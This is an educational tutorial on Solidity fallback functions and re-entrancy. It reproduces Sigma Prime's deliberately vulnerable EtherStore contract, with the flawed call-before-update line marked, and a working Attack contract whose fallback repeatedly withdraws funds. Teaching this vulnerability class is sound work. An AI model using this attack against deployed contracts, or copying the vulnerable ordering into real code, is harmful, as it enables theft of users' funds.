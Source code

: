 # Re-entrancy

## Overview

### Fallback Functions

Before we learn about re-entrancy and how to prevent it, we need to learn about its primary facilitator: fallback functions.

Originally, the main purpose of fallback functions was to catch ether that was accidentally sent to a contract. You could use a plain one, which would throw an exception whenever the contract receives some ether:

```fallback() external { }```

Or you could give it the ability to ingest the ether and add it to the contract balance, and even perform some simple logic:

```
mapping (address => uint) public etherSent;

fallback() external payable {
  etherSent[msg.sender] += msg.value;
}
```
  
Each contract can have up to one fallback function. It has no name, no arguments, no return value, and can only be called by external accounts or contracts. It's executed when a call to the contract doesn't match any of the functions in the contract, or when Ether is sent to the contract without any accompanying data.

By this point, many of us know how resourceful hackers and engineers are. Many of you may be thinking about your own clever uses for a fallback function. You can check out the Delegate Proxy pattern, or EIP-2535 *The Diamond Standard* for ideas. But those aren't what we're here for. We're here to talk about using fallback functions for **evil**.

### Re-Entrancy

The beauty of the Ethereum ecosystem is in its composability and its permissionless, trustless nature. Utilizing code of external contracts is an important part of our burgeoning defi ecosystem. Calling these contracts, however, or sending Ether to them can create opportunities for hackers.

Remember what happens when an external call doesn't match any of the receiving contract's function signatures? A fallback function catches it. And inside that fallback function, arbitrary logic can be executed. Where arbitrary logic can be executed, of course hackers will find a way to perform unexpected operations. In re-entrancy, hackers use this logic to call the offending contract again *and again and again...*, to alter its state before the original function can finish executing. 

Take the below contract for example. written up by Sigma Prime:

```
contract EtherStore {

    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;

    function depositFunds() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        // limit the withdrawal
        require(_weiToWithdraw <= withdrawalLimit);
        // limit the time allowed to withdraw
        require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
----->  require(msg.sender.call.value(_weiToWithdraw)());
        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = now;
    }
 }
 ```
 
 And check out their accompanying "Attack" contract:
 
 ```
 import "EtherStore.sol";

contract Attack {

  EtherStore public etherStore;

  // initialise the etherStore variable with the contract address
  
  constructor(address _etherStoreAddress) {
      etherStore = EtherStore(_etherStoreAddress);
  }

  function pwnEtherStore() public payable {
      // attack to the nearest ether
      require(msg.value >= 1 ether);
      // send eth to the depositFunds() function
      etherStore.depositFunds.value(1 ether)();
      // start the magic
      etherStore.withdrawFunds(1 ether);
  }

  function collectEther() public {
      msg.sender.transfer(this.balance);
  }

  // fallback function - where the magic happens
  function () payable {
      if (etherStore.balance > 1 ether) {
          etherStore.withdrawFunds(1 ether);
      }
  }
}
```

Try to figure out exactly what's happening here. I've marked the vulnerable line of code in the first contract with an arrow.
